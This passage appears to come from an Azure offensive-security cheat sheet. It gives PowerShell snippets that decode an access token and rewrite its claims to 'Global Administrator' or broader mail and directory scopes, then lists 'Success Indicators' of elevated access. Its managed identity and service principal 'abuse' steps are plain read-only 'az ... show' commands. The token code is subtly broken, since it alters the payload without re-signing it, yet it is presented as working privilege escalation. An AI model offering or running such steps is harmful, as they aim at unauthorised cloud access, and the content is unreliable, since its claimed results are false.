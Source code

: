 **Advanced Techniques**:
1. Token Claim Manipulation
   ```powershell
   # PowerShell
   $token = Get-AzAccessToken
   $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($token.split('.')[1]))
   $claims = $decoded | ConvertFrom-Json
   $claims.roles = @("Global Administrator")
   $modifiedToken = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($claims | ConvertTo-Json))
   ```

2. Token Reuse and Abuse
   ```powershell
   # PowerShell
   $token = Get-AzAccessToken
   $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($token.split('.')[1]))
   $claims = $decoded | ConvertFrom-Json
   $claims.scp = "User.Read.All Group.Read.All Mail.Read"
   $modifiedToken = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($claims | ConvertTo-Json))
   ```

**Success Indicators**:
- Modified token claims
- Gained elevated access
- Bypassed restrictions

**Related Sections**:
- [JWT Assertion Exploitation](#jwt-assertion-exploitation)
- [Token Persistence](#token-persistence)
- [Token Cleanup](#token-cleanup)

### Managed Identity Abuse
**Scenario**: You need to abuse managed identities for privilege escalation.

- Managed identity impersonation
  ```powershell
  # PowerShell
  az identity show --name <identity>
  ```

### Service Principal Abuse
**Scenario**: You need to abuse service principals for privilege escalation.

- Service principal impersonation
  ```powershell
  # PowerShell
  az ad sp show --id <sp-id>
  ```

## 4. Lateral Movement
